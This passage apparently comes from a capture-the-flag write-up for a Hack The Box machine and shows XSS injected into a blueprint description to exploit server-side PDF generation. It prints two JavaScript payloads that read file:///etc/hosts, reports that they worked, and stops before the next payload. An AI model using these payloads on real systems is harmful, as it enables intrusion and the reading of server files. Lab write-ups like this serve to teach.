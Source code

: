 Since we have the ability to add blueprints, let's explore the possibility of exploiting Cross-Site Scripting (XSS) vulnerabilities during the PDF generation process.

To test this, we will inject the following XSS payload into the `description` field of a blueprint:

```javascript
<script>
    test = new XMLHttpRequest();
    test.onload = function(){document.write(this.responseText)}
    test.onerror = function(){document.write('failed!')}
    test.open("GET","file:///etc/hosts");
    test.send();
</script>
```

Once the payload is added, we'll proceed to export it. If this initial attempt does not yield the expected results, we can try using a different approach to see if it works.

```javascript
<script>
    window.location.href = "file:///etc/hosts"
</script>
```

![img](assets/host.png)

It worked! We successfully retrieved the content of the `/etc/hosts` file, suggesting that the PDF generation occurs within a Docker instance. Notably, we spotted an entry for `tunnel.neohub.htb`.

Now, let’s redirect our focus to that URL to discover what lies there. Instead of adding another blueprint, we’ll employ the following payload to further investigate:
